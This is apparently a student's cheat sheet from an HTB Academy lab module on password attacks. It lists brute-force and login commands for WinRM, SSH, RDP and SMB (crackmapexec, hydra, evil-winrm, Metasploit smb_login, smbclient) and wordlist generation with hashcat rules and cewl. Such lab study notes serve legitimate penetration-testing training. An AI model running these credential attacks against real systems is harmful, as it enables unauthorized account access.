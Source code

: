 ## HTB-ACADEMY (Passsword attacks / Remote Services)
## Ivan Medina
---

### Remote attacks

##### Network services

- Winrm crack

```
crackmapexec winrm <ip> -u user.list -p password.list
```

```
evil-winrm -i <ip> -u user -p password
```

- SSH crack

```
hydra -t 4 -L user.list -P password.list <ip> ssh -v
```

- RDP crack

```
hydra -L user.list -P password.list <ip> rdp
```

```
xfreerdp /v:<ip> /u:<user> /p:<password>
```

- SMB crack with metasploit

```
use auxiliary/scanner/smb/smb_login
```

- SMB shares

```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

- SMB client

```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

##### Password mutations

*Password rules*

| Function   |      Description      |
|----------|:-------------:|
| : |	Do nothing. |
| l |	Lowercase all letters. |
| u |	Uppercase all letters. |
| c |	Capitalize the first letter and lowercase others. |
| sXY |	Replace all instances of X with Y. |
| $! |	Add the exclamation character at the end. |

*Generate wordlist with rules*

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

*Generate wordlist from webpage*

```
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
